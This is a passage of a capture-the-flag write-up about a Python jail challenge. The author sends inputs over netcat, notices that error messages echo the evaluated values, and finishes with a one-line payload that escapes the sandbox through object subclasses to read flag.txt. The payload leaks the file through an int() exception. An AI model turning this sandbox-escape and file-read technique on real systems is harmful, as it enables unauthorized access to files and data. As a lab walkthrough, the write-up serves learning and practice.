 well after some time, as you check earlier when we used correct statement  but has syntax  we got two Exception together

```
>> import
("That won't work here", 'import', '?')
('Exception:', SyntaxError('invalid syntax', ('<string>', 1, 8, 'x=import\n')))
```

then trick is we can execute correct statement and use another function to  raise the an error then since the first payload worked then the output will display on error Exception message , bingo

```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
....
....

Let me tell you a secret, There is a flag here!
>> int(str('tanzania'))
("That won't work here", "int(str('tanzania'))", '?')
('Exception:', ValueError("invalid literal for int() with base 10: 'tanzania'",))
>> 
```

well as you notice, only output of `'tanzania'` returned without `str` that means  `str` executed but since it returned string which will raise an error to int, so output will be displayed,

we will inject payload to read `flag.txt` since result from `flag.txt` is `String` then will raise as error and flag will be displayed in error Exception of `int`
i used this payload

```
quit(int(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read()))
```

![img33](img/jail33.png)

bingo!!!, we got flag
This challenge was actually quite difficult for me, so I decided to take a break and return later with only 30 minutes left until the competition ended. It turned out to be a stroke of luck, haha!

i submitted flag when 1 sec remained
